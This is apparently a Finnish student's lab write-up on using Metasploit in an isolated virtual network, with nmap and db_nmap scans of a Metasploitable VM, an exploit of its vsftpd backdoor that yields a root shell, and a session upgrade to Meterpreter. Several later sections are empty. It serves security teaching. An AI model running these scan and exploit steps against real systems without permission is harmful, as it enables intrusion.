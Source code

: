 # h2 Social sploit

## x) Lue/katso/kuuntele ja tiivistä

Jaswal 2020: Mastering Metasploit - 4ed: Chapter 1: Approaching a Penetration Test Using Metasploit

-
-
-



## a) Harjoittelemme omassa virtuaaliverkossa, jossa on Kali ja Metaspoitable. Osoita testein, että 1) koneet eivät saa yhteyttä Internetiin 2) Koneet saavat yhteyden toisiinsa

Testasin, ettei Kali tai Metasploitable saa yhteyttä Internettiin ``ping 8.8.8.8`` ja että koneet saavat yhteyden toisiinsa ``ping 192.168.56.101`` ``ping 192.168.56.102``. Kumpikaan ei saanut yhteyttä Internettiin, mutta pingaus koneiden välillä onnistui.

![image](https://github.com/user-attachments/assets/53abff32-c356-4c79-91bb-aafff51e49fd)

![image](https://github.com/user-attachments/assets/7592da8f-5efa-48a0-97fb-5810ba4cba45)




## b) Ota Metasploit msfconsole käyttöön

Komennolla ``msfconsole`` sain konsolin käyttöön.

![image](https://github.com/user-attachments/assets/73b8b06f-566c-4fc8-8173-38d88b27cfa7)



## c) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen weppipalvelimen etusivulla lukee Metasploitable

Annoin tehtävänannon mukaisen komennon, mutta sain virheilmoituksen, jonka mukaan en ole yhteydessä tietokantaan. Löysin ohjeet tähän [https://miteshshah.github.io/linux/kali/how-to-fix-metasploit-database-not-connected-or-cache-not-built/](https://miteshshah.github.io/linux/kali/how-to-fix-metasploit-database-not-connected-or-cache-not-built/), ja lähdin kokeilemaan. Olin kuitenkin jo tunnilla alustanut tietokannan, joten en tiennyt missä kiikasti. 

![image](https://github.com/user-attachments/assets/4d8df782-c380-42cd-90d4-3fb669ebde98)


Käynnistin msfconsolen uudestaan ``exit`` -> ``msfconsole`` ja toistin komennon ``db_nmap -sn 192.168.56.1/24``, ja sitten se toimikin.

![image](https://github.com/user-attachments/assets/45efc1c8-f560-4ef4-9134-72af0b87258a)


Ja kyllä, porttiskannauksella löytynyt IP-osoite 192.168.56.102 oli kuin olikin Metasploitablen, ja sen näki selaimella.

![image](https://github.com/user-attachments/assets/485302cc-28bf-4cd3-b954-e03cc5186831)




## d) Porttiskannaa Metasploitable perusteellisesti. Tallenna tulokset Metasploitin tietokantoihin (db_nmap) ja tiedostoihin (nmap -oA foo)

Skannasin Metasploitablen portit komennolla ``db_nmap -p- -sV -A 192.168.56.102``. db tallentaa tietokantaan, -p- skannaa kaikki portit, sV tutkii palveluiden versiot, -A tunnistaa palvelun. Tutorialspointin [NMAP Cheat Sheetilta](https://www.tutorialspoint.com/nmap-cheat-sheet) voi tutkia, millaisia erilaisia nmap-komentoja on ja mitä tietoa niillä saa.

Sitten toistin komennon niin, että tulokset tallentuvat tiedostoihin: ``nmap -p- -sV -A -oA skannaus1 192.168.56.102``. -oA tallentaa skannauksen skannaus1-nimiseksi tiedostoksi. Lähdin tutkimaan, mihin tiedostot tallentuivat, ja ne löytyivätkin heti omasta kotihakemistosta. Tiedostomuotoja oli kolme erilaista: .gnmap, .nmap ja .xml.

![image](https://github.com/user-attachments/assets/47207469-3351-4615-86c0-7d2dc7259003)




## e) Tarkastele Metasploitin tietokantoihin tallennettuja tietoja komennoilla "hosts" ja "services". Kokeile suodattaa näitä listoja tai hakea niistä

Komennolla ``hosts`` näkyi tietokantaan tallennetun porttiskannauksen tallentamat IP-osoitteet.

![image](https://github.com/user-attachments/assets/123ca494-23a6-4a19-9475-ebfb5e601e51)


Komennolla ``services``näkyi tietokantaan tallennetun porttiskannauksen havaitsemat portit ja niitä kuuntelevat palvelut.

![image](https://github.com/user-attachments/assets/b21b9866-b050-46e5-a7fb-5fc06574dda5)


Komennoilla ``hosts -h`` ja ``services -h`` löysin erilaisia suodatusvaihtoehtoja. 

Esimerkiksi komento ``services -S http`` hakee kaikki palvelut, jotka sisältävät sanan http. Komento ``hosts --up`` näyttää päällä olevat laitteet.

![image](https://github.com/user-attachments/assets/c6d5033b-ba33-474a-9205-2c4c23bfc496)

![image](https://github.com/user-attachments/assets/98ba4136-ad6d-41e9-b2f8-7a2143e4b14f)




## f) Vertaile nmap:n omaa tiedostoon tallennusta ja db_nmap:n tallennusta tietokantoihin. Mitkä ovat eri tiedostomuotojen ja Metasploitin tietokannan hyvät puolet?

Tiedostoon tallentamisen etuna on, että tiedostoja on helppo jakaa eteenpäin. XML-tiedostoa voi myös lukea useissa eri ohjelmissa, kuten tekstieditorit, ja tieto on rakenteista. Grepable-tiedosto on kätevä, kun tekstitiedostoa käsitellään komentorivillä. Tiedostoksi tallentaminen ei vaadi tietokannan luomista.

Tietokantaan tallentaminen mahdollistaa tiedon käsittelyn Metasploitin sisällä, ja tietokannasta voi helposti hakea ja suodattaa tietoa. Tietoja on helppo hyödyntää Metasploitilla erilaisiin hyökkäyksiin. Tietokannan hallinta voi olla raskasta jos dataa on paljon ja vaatii osaamista enemmän, kuin tiedostojen käsittely.


## g) Murtaudu Metasploitablen vsftpd-palveluun

Suoritin tämän ensimmäisen kerran tunnilla, ja silloin käytin apuna tätä ohjetta: [https://medium.com/@jasonjayjacobs/exploiting-vsftpd-in-metasploitable-2-cf975ead1173](https://medium.com/@jasonjayjacobs/exploiting-vsftpd-in-metasploitable-2-cf975ead1173)

mfsconsolessa: 

- Etsin hyökkäyksen: ``search vsftpd``
- Valitsin hyökkäyksen (valitsin yhden esimerkeistä): ``use 1`` eli cmd/unix/interact
- Valitsin kohteen: ``set RHOSTS 192.168.56.102``
- Suoritin hyökkäyksen: ``run``
- ``whoami``, ``uname -a``-> olen root, Metasploitablen komentorivillä
  

![image](https://github.com/user-attachments/assets/1bc74376-e719-4442-bbdb-43582d7212b7)


## h) Päivitä äskeisen vsftpd-murron yhteydessä syntynyt sessio meterpretriin

Sitten etsin apua Meterpreterin käyttöön, sillä se on minulle täysin uusi. Löysin Youtube-tutoriaalin [Managing Sessions and using Meterpreter](https://www.youtube.com/watch?v=ApfRA0xLOo0) jota lähdin seuraamaan. 

Painamalla CTRL + Z jätin session päälle taustalle. ``sessions -h``löytyy lisää komentoja sessioiden hallintaan. Kokeilin komentoa ``sessions -l`` jolla saa listan päällä olevista sessioista.

![image](https://github.com/user-attachments/assets/6e327844-a563-4fac-99e8-e5f6b65a7c1e)


Komennolla ``sessions -u 1`` päivitin session Meterpreter-sessioksi. Nyt listaamalla sessiot näkyi listassa aiemman session lisäksi Meterpreter-sessio.

![image](https://github.com/user-attachments/assets/0ea91170-3d59-451e-922c-9ae2ddee1b90)


``sessions -i 2`` komennolla avasin Meterpreter-session. ``?`` komennolla näkyi lista Meterpreterillä käytettävistä komennoista.




## i) Kerää levittäytymisessä (lateral movement) tarvittavaa tietoa metasploitablesta. Analysoi tiedot. Selitä, miten niitä voisi hyödyntää




## j) Murtaudu Metasploitableen jollain toisella tavalla


## k) Demonstroi Meterpretrin ominaisuuksia


## l) Tallenna shell-sessio tekstitiedostoon script-työkalulla (script -fa log001.txt)


## Lähteet

Jaswal 2020: Mastering Metasploit - 4ed: Chapter 1: Approaching a Penetration Test Using Metasploit

https://miteshshah.github.io/linux/kali/how-to-fix-metasploit-database-not-connected-or-cache-not-built/

https://www.tutorialspoint.com/nmap-cheat-sheet

https://tiedosto.info/extension/xml.html

https://nmap.org/book/output-formats-grepable-output.html

https://medium.com/@jasonjayjacobs/exploiting-vsftpd-in-metasploitable-2-cf975ead1173
